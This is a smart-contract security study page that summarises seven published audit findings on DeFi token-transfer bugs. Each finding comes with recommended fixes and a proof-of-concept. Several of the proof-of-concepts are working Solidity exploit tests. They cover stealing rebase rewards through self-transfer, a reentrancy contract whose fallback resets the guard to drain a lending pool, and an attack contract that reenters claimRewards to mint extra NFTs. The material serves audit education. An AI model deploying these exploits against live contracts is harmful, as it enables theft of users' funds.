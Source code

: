 # ETAAcademy-Adudit: 2. Transfer

<table>
  <tr>
    <th>title</th>
    <th>tags</th>
  </tr>
  <tr>
    <td>02. Transfer</td>
    <td>
      <table>
        <tr>
          <th>audit</th>
          <th>basic</th>
          <th>dos</th>
          <td>transfer</td>
        </tr>
      </table>
    </td>
  </tr>
</table>

[Github](https://github.com/ETAAcademy)｜[Twitter](https://twitter.com/ETAAcademy)｜[ETA-Audit](https://github.com/ETAAcademy/ETAAcademy-Audit)

Authors: [Eta](https://twitter.com/pwhattie), looking forward to your joining

## 1. [High] Anyone can steal all distributed rewards

### Self-transfer

- Summary: By executing a self-transfer of tokens while in rebase, an attacker can mint additional tokens for themselves, effectively stealing all distributed rewards until that point. This occurs due to a discrepancy in updating share balances during the transfer process, leading to an incorrect calculation of token balances.
- Impact & Recommendation: Consequently, an attacker can repeatedly exploit this flaw to siphon off rewards intended for other users.To mitigate this issue, preventing self-transfers is recommended to prevent further exploitation and potential loss of funds.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#h-02-anyone-can-steal-all-distributed-rewards) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

  function testSelfTransfer() public {
    token.mint(address(this), 100e18);

    // Mint some tokens to bob and alice
    token.mint(alice, 10e18);
    token.mint(bobby, 10e18);
    // Bob enters the rebase since he wants to earn some profit
    vm.prank(bobby);
    token.enterRebase();
    // Tokens are distributed among all rebase users
    token.distribute(10e18);
    // Nobody claims the rebase rewards for 10 days - just for an example
    // Alice could frontrun every call that changes the unmintedRebaseRewards atomically
    // and claim all the rewards for herself
    vm.warp(block.timestamp + 10 days);
    // --------------------- ATOMIC TX ---------------------
    vm.startPrank(alice);
    token.enterRebase();
    uint256 token_balance_alice_before = token.balanceOf(alice);
    // Here the max she could transfer and steal is the unmintedRebaseRewards() amount
    // but we are using 3e18 just for an example as 3e18 < unmintedRebaseRewards()
    // since there is no public getter for unmintedRebaseRewards
    token.transfer(alice, 3e18);
    token.exitRebase();
    vm.stopPrank();
    uint256 token_balance_alice = token.balanceOf(alice);
    // --------------------- END ATOMIC TX ---------------------
    console.log("Token balance alice before : ", token_balance_alice_before);
    console.log("Token balance alice after  : ", token_balance_alice);
    console.log("--------------------------------------------------");
    console.log("Alice profit credit        : ", token_balance_alice - token_balance_alice_before);
  }


  ```

  </details>

## 2. [Medium] Inability to withdraw funds for certain users due to whenNotPaused modifier in RateLimitedMinter

### EmergencyWithdraw for paused protocol

- Summary: The GUARDIAN role is meant to freeze new protocol usage but allow fund withdrawals. However, the whenNotPaused modifier in the RateLimitedMinter.mint() function prevents users from withdrawing funds if they have CREDIT tokens staked with pending guild rewards. This occurs because the SurplusGuildMinter.unstake() function, called during withdrawal, tries to mint rewards through RateLimitedMinter.mint() by getRewards(), which fails if the protocol is paused.

- Impact & Recommendation: Introduce emergencyWithdraw for users to withdraw funds, excluding rewards when the protocol is paused.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-02-inability-to-withdraw-funds-for-certain-users-due-to-whennotpaused-modifier-in-ratelimitedminter) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity
    function unstake(address term, uint256 amount) external {
        // apply pending rewards
        (, UserStake memory userStake, bool slashed) = getRewards(
            msg.sender,
            term
        );
    ...


    function getRewards(
        address user,
        address term
    )
        public
        returns (
            uint256 lastGaugeLoss, // GuildToken.lastGaugeLoss(term)
            UserStake memory userStake, // stake state after execution of getRewards()
            bool slashed // true if the user has been slashed
        )
    {
    ...

                // forward rewards to user
            if (guildReward != 0) {
                RateLimitedMinter(rlgm).mint(user, guildReward);
                emit GuildReward(block.timestamp, user, guildReward);
            }
    ...

    function mint(
        address to,
        uint256 amount
    ) external onlyCoreRole(role) whenNotPaused {
        _depleteBuffer(amount); /// check and effects
        IERC20Mintable(token).mint(to, amount); /// interactions
    }


  ```

  </details>

## 3. [Medium] Auction manipulation by block stuffing and reverting on ERC-777 hooks

### Block stuffing attack on the auction

- Summary: A low immutable auction duration set in the deployment script can enable profitable block stuffing attacks on desired Layer 2 (L2) chains. The attacker borrows a loan to receive credit tokens and deposit collateral into the protocol. After the first partial duration, the attacker fails to repay the loan and initiates an auction. The attacker exploits the system by preventing bids until the midpoint, reducing costs, then begins block stuffing to acquire collateral by less credit tokens. Ultimately, the attacker may acquire almost the full loan amount, surpassing the gas cost for block stuffing.

- Impact & Recommendation: The attacker can manipulate the auction to acquire full collateral for almost zero credit tokens, resulting in loss for all stakers on the term. Increasing auction duration and implementing fixes to prevent bad debt from collateral token blacklisting can mitigate such attacks and prevent total loss of stake for lenders.
  <br> 🐬: [Source](https://code4rena.com/reports/2023-12-ethereumcreditguild#m-16-auction-manipulation-by-block-stuffing-and-reverting-on-erc-777-hooks) & [Report](https://code4rena.com/reports/2023-12-ethereumcreditguild)

  <details><summary>POC</summary>

  ```solidity

    function bid(bytes32 loanId) external {
        ...
        LendingTerm(_lendingTerm).onBid(
            loanId,
            msg.sender,
            auctions[loanId].collateralAmount - collateralReceived, // collateralToBorrower
            collateralReceived, // collateralToBidder
            creditAsked // creditFromBidder
        );
        ...
    }
    function onBid(
        bytes32 loanId,
        address bidder,
        uint256 collateralToBorrower,
        uint256 collateralToBidder,
        uint256 creditFromBidder
    ) external {
        ...
        int256 pnl;
        uint256 interest;
        if (creditFromBidder >= principal) {
            interest = creditFromBidder - principal;
            pnl = int256(interest);
        } else {
            pnl = int256(creditFromBidder) - int256(principal);
            principal = creditFromBidder;
            require(
                collateralToBorrower == 0,
                "LendingTerm: invalid collateral movement"
            );
        }
        ...
        // handle profit & losses
        if (pnl != 0) {
            // forward profit, if any
            if (interest != 0) {
                CreditToken(refs.creditToken).transfer(
                    refs.profitManager,
                    interest
                );
            }
            ProfitManager(refs.profitManager).notifyPnL(address(this), pnl);
        }
        ...
    }
    function notifyPnL(
        address gauge,
        int256 amount
    ) external onlyCoreRole(CoreRoles.GAUGE_PNL_NOTIFIER) {
        ...
        // handling loss
        if (amount < 0) {
            uint256 loss = uint256(-amount);
            // save gauge loss
            GuildToken(guild).notifyGaugeLoss(gauge);
            // deplete the term surplus buffer, if any, and
            // donate its content to the general surplus buffer
            if (_termSurplusBuffer != 0) {
                termSurplusBuffer[gauge] = 0;
                emit TermSurplusBufferUpdate(block.timestamp, gauge, 0);
                _surplusBuffer += _termSurplusBuffer;
            }
            if (loss < _surplusBuffer) {
                // deplete the surplus buffer
                surplusBuffer = _surplusBuffer - loss;
                emit SurplusBufferUpdate(
                    block.timestamp,
                    _surplusBuffer - loss
                );
                CreditToken(_credit).burn(loss);
            }
        } ...
    }
    function notifyGaugeLoss(address gauge) external {
        require(msg.sender == profitManager, "UNAUTHORIZED");
        // save gauge loss
        lastGaugeLoss[gauge] = block.timestamp;
        emit GaugeLoss(gauge, block.timestamp);
    }
    /// @notice apply a loss that occurred in a given gauge
    /// anyone can apply the loss on behalf of anyone else
    function applyGaugeLoss(address gauge, address who) external {
        // check preconditions
        uint256 _lastGaugeLoss = lastGaugeLoss[gauge];
        uint256 _lastGaugeLossApplied = lastGaugeLossApplied[gauge][who];
        require(
            _lastGaugeLoss != 0 && _lastGaugeLossApplied < _lastGaugeLoss,
            "GuildToken: no loss to apply"
        );
        // read user weight allocated to the lossy gauge
        uint256 _userGaugeWeight = getUserGaugeWeight[who][gauge];
        // remove gauge weight allocation
        lastGaugeLossApplied[gauge][who] = block.timestamp;
        _decrementGaugeWeight(who, gauge, _userGaugeWeight);
        if (!_deprecatedGauges.contains(gauge)) {
            totalTypeWeight[gaugeType[gauge]] -= _userGaugeWeight;
            totalWeight -= _userGaugeWeight;
        }
        // apply loss
        _burn(who, uint256(_userGaugeWeight));
        emit GaugeLossApply(
            gauge,
            who,
            uint256(_userGaugeWeight),
            block.timestamp
        );
    }

  ```

  </details>

## 4. [High] Exploitation of the receive Function to Steal Funds

### Reentrancy by receive function

- Summary: The contract has a reentrancy vulnerability due to a flaw in its guard mechanism. Attackers can reset the guard using a receive function, allowing them to execute unauthorized withdrawals. They can deposit ETH, borrows some, then initiates a withdrawal, resetting the guard to pay off their own loan and withdraw additional funds.

- Impact & Recommendation: The vulnerability enables unauthorized fund withdrawals from the contract. The recommendation is to add a reentrancy check to the \_sendValue function to prevent exploitation, without disrupting transfers from the WETH address.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-02-wise-lending#h-01-exploitation-of-the-receive-function-to-steal-funds) & [Report](https://code4rena.com/reports/2024-02-wise-lending)

  <details><summary>POC</summary>

  ```solidity
    // import ContractA
    import "./ContractA.sol";
    // import MockErc20
    import "./MockContracts/MockErc20.sol";
    contract WiseLendingShutdownTest is Test {
        ...
        ContractA public contractA;
        function _deployNewWiseLending(bool _mainnetFork) internal {
            ...
            contractA = new ContractA(address(FEE_MANAGER_INSTANCE), payable(address(LENDING_INSTANCE)));
            ...
        }
        function testExploitReentrancy() public {
            uint256 depositValue = 10 ether;
            uint256 borrowAmount = 2 ether;
            vm.deal(address(contractA), 2 ether);
            ORACLE_HUB_INSTANCE.setHeartBeat(WETH_ADDRESS, 100 days);
            POSITION_NFTS_INSTANCE.mintPosition();
            uint256 nftId = POSITION_NFTS_INSTANCE.tokenOfOwnerByIndex(address(this), 0);
            LENDING_INSTANCE.depositExactAmountETH{value: depositValue}(nftId);
            LENDING_INSTANCE.borrowExactAmountETH(nftId, borrowAmount);
            vm.prank(address(LENDING_INSTANCE));
            MockErc20(WETH_ADDRESS).transfer(address(FEE_MANAGER_INSTANCE), 1 ether);
            // check contractA balance
            uint ethBalanceStart = address(contractA).balance;
            uint wethBalanceStart = MockErc20(WETH_ADDRESS).balanceOf(address(contractA));
            //total
            uint totalBalanceStart = ethBalanceStart + wethBalanceStart;
            console.log("totalBalanceStart", totalBalanceStart);
            // deposit using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.depositExactAmountETHMint{value: 2 ether}();
            vm.stopPrank();
        FEE_MANAGER_INSTANCE._increaseFeeTokens(WETH_ADDRESS, 1 ether);

            // withdraw weth using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.withdrawExactAmount(2, WETH_ADDRESS, 1 ether);
            vm.stopPrank();
            // approve feemanager for 1 weth from contractA
            vm.startPrank(address(contractA));
            MockErc20(WETH_ADDRESS).approve(address(FEE_MANAGER_INSTANCE), 1 ether);
            vm.stopPrank();
            // borrow using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.borrowExactAmount(2,  WETH_ADDRESS, 0.5 ether);
            vm.stopPrank();
            // Payback amount
            //499537556593483218
            // withdraw using contractA
            vm.startPrank(address(contractA));
            LENDING_INSTANCE.withdrawExactAmountETH(2, 0.99 ether);
            vm.stopPrank();
            // check contractA balance
            uint ethBalanceAfter = address(contractA).balance;
            uint wethBalanceAfter = MockErc20(WETH_ADDRESS).balanceOf(address(contractA));
            //total
            uint totalBalanceAfter = ethBalanceAfter + wethBalanceAfter;
            console.log("totalBalanceAfter", totalBalanceAfter);
            uint diff = totalBalanceAfter - totalBalanceStart;
            assertEq(diff > 5e17, true, "ContractA profit greater than 0.5 eth");
        }
    // SPDX-License-Identifier: -- WISE --
    pragma solidity =0.8.24;
    // import lending and fees contracts
    import "./WiseLending.sol";
    import "./FeeManager/FeeManager.sol";
    contract ContractA {
        address public feesContract;
        address payable public lendingContract;
        address constant WETH_ADDRESS = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
        constructor(address _feesContract, address payable _lendingContract) payable {
            feesContract = _feesContract;
            lendingContract = _lendingContract;
        }
        fallback() external payable {
            if (msg.sender == lendingContract) {
                // send lending contract 0.01 eth to reset reentrancy flag
                (bool sent, bytes memory data) = lendingContract.call{value: 0.01 ether}("");
                //paybackBadDebtForToken
                FeeManager(feesContract).paybackBadDebtForToken(2, WETH_ADDRESS, WETH_ADDRESS, 499537556593483218);
            }
        }
    }


  ```

  </details>

## 5. [High] Player can mint more fighter NFTs during claim of rewards by leveraging reentrancy on the claimRewards() function

### Reentrancy by roundId

- Summary: A reentrancy vulnerability in the `claimRewards` function allows a malicious user to mint more fighter NFTs than they are entitled to. By using a smart contract, a user can repeatedly reenter the function during the reward claim process, resulting in excessive minting of NFTs stems from the `roundId`.
- Impact & Recommendation: Use a `nonReentrant` modifier for the `claimRewards` function.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-02-ai-arena#h-08-player-can-mint-more-fighter-nfts-during-claim-of-rewards-by-leveraging-reentrancy-on-the-claimrewards-function) & [Report](https://code4rena.com/reports/2024-02-ai-arena)

  <details><summary>POC</summary>

  ```solidity
    import "@openzeppelin/contracts/token/ERC721/IERC721Receiver.sol";
    contract Attack is IERC721Receiver {

        address owner;
        uint256 tickets = 0;
        MergingPool mergingPool;
        FighterFarm fighterFarm;
        constructor(address mergingPool_, address fighterFarm_) {
            mergingPool = MergingPool(mergingPool_);
            fighterFarm = FighterFarm(fighterFarm_);
            owner = msg.sender;
        }
        function reenter() internal {
            ++tickets;
            if (tickets < 100) {
                (string[] memory _modelURIs, string[] memory _modelTypes, uint256[2][] memory _customAttributes) = setInformation();
                mergingPool.claimRewards(_modelURIs, _modelTypes, _customAttributes);
            }
        }
        function onERC721Received(address, address, uint256 tokenId, bytes calldata) public returns (bytes4) {
            reenter();
            return IERC721Receiver.onERC721Received.selector;
        }
        function attack() public {
            (string[] memory _modelURIs, string[] memory _modelTypes, uint256[2][] memory _customAttributes) = setInformation();
            mergingPool.claimRewards(_modelURIs, _modelTypes, _customAttributes);
        }
        function setInformation() public pure returns (string[] memory, string[] memory, uint256[2][] memory) {
            string[] memory _modelURIs = new string[](3);
            _modelURIs[0] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
            _modelURIs[1] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
            _modelURIs[2] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
            string[] memory _modelTypes = new string[](3);
            _modelTypes[0] = "original";
            _modelTypes[1] = "original";
            _modelTypes[2] = "original";
            uint256[2][] memory _customAttributes = new uint256[2][](3);
            _customAttributes[0][0] = uint256(1);
            _customAttributes[0][1] = uint256(80);
            _customAttributes[1][0] = uint256(1);
            _customAttributes[1][1] = uint256(80);
            _customAttributes[2][0] = uint256(1);
            _customAttributes[2][1] = uint256(80);
            return (_modelURIs, _modelTypes, _customAttributes);
        }
    }

  ```

  ```solidity
      function testReenterPOC() public {
        address Bob = makeAddr("Bob");
        Attack attacker = new Attack(address(_mergingPoolContract), address(_fighterFarmContract));

        _mintFromMergingPool(address(attacker));
        _mintFromMergingPool(Bob);
        assertEq(_fighterFarmContract.ownerOf(0), address(attacker));
        assertEq(_fighterFarmContract.ownerOf(1), Bob);
        uint256[] memory _winners = new uint256[](2);
        _winners[0] = 0;
        _winners[1] = 1;
         // winners of roundId 0 are picked
        _mergingPoolContract.pickWinner(_winners);
        assertEq(_mergingPoolContract.isSelectionComplete(0), true);
        assertEq(_mergingPoolContract.winnerAddresses(0, 0) == address(attacker), true);
        // winner matches ownerOf tokenId
        assertEq(_mergingPoolContract.winnerAddresses(0, 1) == Bob, true);
        string[] memory _modelURIs = new string[](2);
        _modelURIs[0] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";
        _modelURIs[1] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";

        string[] memory _modelTypes = new string[](2);
        _modelTypes[0] = "original";
        _modelTypes[1] = "original";
        uint256[2][] memory _customAttributes = new uint256[2][](2);
        _customAttributes[0][0] = uint256(1);
        _customAttributes[0][1] = uint256(80);
        _customAttributes[1][0] = uint256(1);
        _customAttributes[1][1] = uint256(80);
        // winners of roundId 1 are picked
        uint256 numberOfRounds = _mergingPoolContract.roundId();
        console.log("Number of Rounds: ", numberOfRounds);
        _mergingPoolContract.pickWinner(_winners);
        _mergingPoolContract.pickWinner(_winners);
        console.log("------------------------------------------------------");
        console.log("Balance of attacker (Alice) address pre-claim rewards: ", _fighterFarmContract.balanceOf(address(attacker)));
        // console.log("Balance of Bob address pre-claim rewards: ", _fighterFarmContract.balanceOf(Bob));
        uint256 numRewardsForAttacker = _mergingPoolContract.getUnclaimedRewards(address(attacker));

        // uint256 numRewardsForBob = _mergingPoolContract.getUnclaimedRewards(Bob);
        console.log("------------------------------------------------------");
        console.log("Number of unclaimed rewards attacker (Alice) address has a claim to: ", numRewardsForAttacker);
        // console.log("Number of unclaimed rewards Bob address has a claim to: ", numRewardsForBob);

        // vm.prank(Bob);
        // _mergingPoolContract.claimRewards(_modelURIs, _modelTypes, _customAttributes);
        vm.prank(address(attacker));
        attacker.attack();
        uint256 balanceOfAttackerPostClaim = _fighterFarmContract.balanceOf(address(attacker));
        console.log("------------------------------------------------------");
        console.log("Balance of attacker (Alice) address post-claim rewards: ", balanceOfAttackerPostClaim);
        // console.log("Balance of Bob address post-claim rewards: ", _fighterFarmContract.balanceOf(Bob));
    }

  ```

  </details>

## 6.[Medium] Potential arbitrage opportunity in the xRenzoDeposit L2 contract

### Arbitrage

- Summary: In the xRenzoDeposit L2 contract, the sendPrice function updates the price of ezETH to ETH, which is then received by other contracts on Layer 2 (L2). However, a potential arbitrage opportunity exists where a user can monitor the L1 mempool for the sendPrice function call, observe the new price, and exploit it by minting xezETH on L2 before the price adjustment takes effect.

- Impact & Recommendation: Implementing two fees for L2 deposits may mitigate this issue. Additionally, as ezETH tends to be stable, significant price fluctuations are less common. Continuous monitoring and adjusting the update frequency may be necessary to prevent exploitation.
  <br> 🐬: [Source](https://code4rena.com/reports/2024-04-renzo#m-10-potential-arbitrage-opportunity-in-the-xrenzodeposit-l2-contract) & [Report](https://code4rena.com/reports/2024-04-renzo)

  <details><summary>POC</summary>

  ```solidity
      /**
     * @notice  Exposes the price via getRate()
     * @dev     This is required for a balancer pool to get the price of ezETH
     * @return  uint256  .
     */
    function getRate() external view override returns (uint256) {
        return lastPrice;
    }

  ```

  </details>

## 7.[Medium] Malicious Actor Can Steal Deposits of Tokens With Sender Hooks or Cause Lock Of Funds

### Reentrancy hooks

- Summary: The depositERC20 function is vulnerable to reentrancy attacks with tokens that implement sender hooks. An attacker can exploit this by reentering the function during token transfer, depositing tokens multiple times without triggering the reentrancy check. This results in an inflated deposited balance. Consequently, the attacker could withdraw more tokens than deposited, or the contract might lock funds if it lacks sufficient tokens to cover the inflated balance.

- Impact & Recommendation: To prevent this, it is recommended to add reentrancy guards to both the depositERC20 and depositETH functions.
  <br> 🐬: [Source](https://blog.openzeppelin.com/scroll-batch-token-bridge-audit#malicious-actor-can-steal-deposits-of-tokens-with-sender-hooks-or-cause-lock-of-funds) & [Report](https://blog.openzeppelin.com/scroll-batch-token-bridge-audit)

<details><summary>POC</summary>

```solidity
    }

    /// @notice Deposit ETH.
    function depositETH() external payable nonReentrant {
        // no safe cast check here, since no one has so much ETH yet.
        _deposit(address(0), _msgSender(), uint96(msg.value));
    }
	@@ -218,7 +218,7 @@ contract L1BatchBridgeGateway is AccessControlEnumerableUpgradeable, ReentrancyG
    ///
    /// @param token The address of token.
    /// @param amount The amount of token to deposit. We use type `uint96`, since it is enough for most of the major tokens.
    function depositERC20(address token, uint96 amount) external nonReentrant {
        if (token == address(0)) revert ErrorIncorrectMethodForETHDeposit();

        // common practice to handle fee on transfer token.
	@@ -345,7 +345,7 @@ contract L1BatchBridgeGateway is AccessControlEnumerableUpgradeable, ReentrancyG
        address token,
        address sender,
        uint96 amount
    ) internal {
        BatchConfig memory cachedBatchConfig = configs[token];
        TokenState memory cachedTokenState = tokens[token];
        _tryFinalizeCurrentBatch(token, cachedBatchConfig, cachedTokenState);

```

</details>
